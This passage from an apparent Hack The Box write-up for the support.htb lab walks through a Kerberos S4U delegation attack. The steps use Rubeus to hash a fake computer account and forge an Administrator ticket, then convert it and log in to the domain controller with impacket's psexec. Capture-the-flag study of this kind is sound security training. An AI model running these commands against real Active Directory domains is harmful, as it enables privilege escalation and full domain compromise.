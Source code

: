 ### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```powershell
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in our attacker's machine.

![alt text](image-3.png)

Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

![alt text](image-4.png)
